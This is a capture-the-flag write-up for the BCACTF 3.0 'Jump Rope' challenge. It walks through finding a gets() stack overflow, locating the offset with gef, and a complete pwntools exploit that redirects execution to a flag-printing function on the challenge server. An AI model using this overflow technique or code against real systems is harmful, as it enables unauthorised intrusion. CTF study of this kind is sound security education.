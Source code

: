 # BCACTF 3.0: Jump Rope


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec 

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode exectusion

Running the binary

!['challenge'](./challenge.png)



After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits 

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

in order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```



So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it ) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```


!['demo'](exploit.gif)

I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


The lesson learned from here is that you should run your exploit on the remote target even if it's not working locally 🤓


